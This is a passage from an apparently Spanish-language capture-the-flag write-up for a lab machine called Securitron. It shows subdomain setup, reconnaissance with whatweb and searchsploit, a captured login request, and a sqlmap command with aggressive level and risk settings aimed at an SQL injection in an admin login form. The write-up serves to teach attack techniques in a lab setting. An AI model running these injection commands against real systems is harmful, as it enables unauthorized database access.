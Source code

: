 Añadimos el subdominio `admin19-32.securitron.thl` al fichero `/etc/hosts`.

![/etc/hosts](/assets/securitron/image-11.png)

## SQL Injection

Accedemos al subdominio `admin19-32.securitron.thl` y nos aparece la aplicación "Employee Management System".

![Employee Management System](/assets/securitron/image-12.png)

```
whatweb http://admin19-32.securitron.thl
```
![whatweb](/assets/securitron/image-13.png)

Encontramos varios exploits que se aprovechan de un SQL Injection en el formulario `http://admin19-32.securitron.thl/Admin/login.php`.

```
searchsploit "Employee Management System"
```

![searchsploit](/assets/securitron/image-14.png)

Abrimos Burp Suite, configuramos el proxy del navegador y capturamos el envío de una petición del formulario de login.

```
POST /Admin/login.php HTTP/1.1
Host: admin19-32.securitron.thl
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 43
Origin: http://admin19-32.securitron.thl
Connection: close
Referer: http://admin19-32.securitron.thl/Admin/login.php
Cookie: PHPSESSID=6gr7532dnv7ni64ckglf9ne00l
Upgrade-Insecure-Requests: 1

txtusername=test&txtpassword=test&btnlogin=
```

![request.txt](/assets/securitron/image-15.png)

Guardamos la petición en un fichero `request.txt`, para utilizarla mediante sqlmap.

```
sqlmap -r request.txt --level 5 --risk 3 --current-db
```

![sqlmap current-db](/assets/securitron/image-16.png)
